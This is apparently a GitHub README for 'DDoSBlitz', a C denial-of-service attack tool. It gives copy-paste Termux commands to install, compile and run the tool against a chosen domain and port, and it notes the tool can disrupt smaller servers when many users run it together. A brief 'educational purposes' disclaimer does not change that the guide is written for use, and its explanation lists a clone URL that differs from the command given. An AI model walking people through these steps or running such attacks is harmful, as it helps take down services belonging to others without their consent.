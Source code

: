# DDoS Attack Tool

## Overview

DDoS (Distributed Denial of Service) is a type of cyberattack where an attacker attempts to disrupt the normal functioning of a targeted server, service, or network by overwhelming it with a flood of internet traffic. The DDoSBlitz tool, written in C, is an open-source utility designed to simulate a DDoS attack. This document provides detailed instructions for setting up and using DDoSBlitz on Termux.

## What is DDoSBlitz?

DDoSBlitz is an open-source DDoS attack tool implemented in the C programming language. It is used for educational purposes to demonstrate how DDoS attacks work. This tool is specifically designed to be used on Linux-based systems, including Termux on Android devices.

## Using DDoSBlitz with Termux

While Termux runs on a mobile device, it does not have the same power as a full server. As a result, DDoSBlitz may not be effective against large websites (e.g., Google, Facebook) but can still cause noticeable disruptions on smaller servers when used by multiple users simultaneously.

### Installation Steps

1. **Install Termux**

   Download and install Termux from the [Google Play Store](https://play.google.com/store/apps/details?id=com.termux) or [F-Droid](https://f-droid.org/packages/com.termux/).

2. **Update and Upgrade Termux Packages**

   Open Termux and execute the following commands to update and upgrade your package list:

   ```bash
   apt update
   apt upgrade
   ```

3. **Install Required Packages**

   Install `git` and `clang`, which are needed to clone and compile the DDoSBlitz tool:

   ```bash
   pkg install git
   pkg install clang
   ```

4. **Clone the DDoSBlitz Repository**

   Download the DDoSBlitz source code from GitHub:

   ```bash
   git clone https://github.com/New71k/DDoSBlitz
   ```

5. **Compile the DDoSBlitz Tool**

   Navigate to the DDoSBlitz directory and compile the source code:

   ```bash
   cd DDoSBlitz
   clang DDoSBlitz.c -o DDoSBlitz
   ```

6. **Run the DDoSBlitz Tool**

   Execute the compiled tool, specifying the target website and port number. Replace `www.example.com` with the target domain and `80` with the target port:

   ```bash
   ./DDoSBlitz www.example.com 80
   ```

### All Commands

The following block contains all the necessary commands to set up, compile, and execute the DDoSBlitz tool in Termux. Copy and paste these commands in sequence to perform the entire setup:

```bash
apt update && apt upgrade -y
pkg install git clang -y
git clone https://github.com/New71k/DDoSBlitz
cd DDoSBlitz
clang DDoSBlitz.c -o DDoSBlitz
./DDoSBlitz www.example.com 80
```

**Explanation:**

- `apt update && apt upgrade -y`: Updates the package list and upgrades installed packages to the latest versions.
- `pkg install git clang -y`: Installs the `git` and `clang` packages required for cloning the repository and compiling the code.
- `git clone https://github.com/New71k/DDos/blob/main/DDoSBlitz.c`: Clones the repository containing the DDoSBlitz source code from GitHub.
- `cd DDoSBlitz`: Navigates to the directory where the source code is located.
- `clang DDoSBlitz.c -o DDoSBlitz`: Compiles the source code into an executable named `DDoSBlitz`.
- `./DDoSBlitz www.example.com 80`: Executes the DDoSBlitz tool with the specified target domain and port.

## Disclaimer

This tool is intended solely for educational purposes. Unauthorized use of DDoSBlitz or similar tools to attack servers or services without explicit permission is illegal and unethical. Always ensure you have proper authorization before conducting any tests.

## License

This code is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Credits

- **Author**: New71k
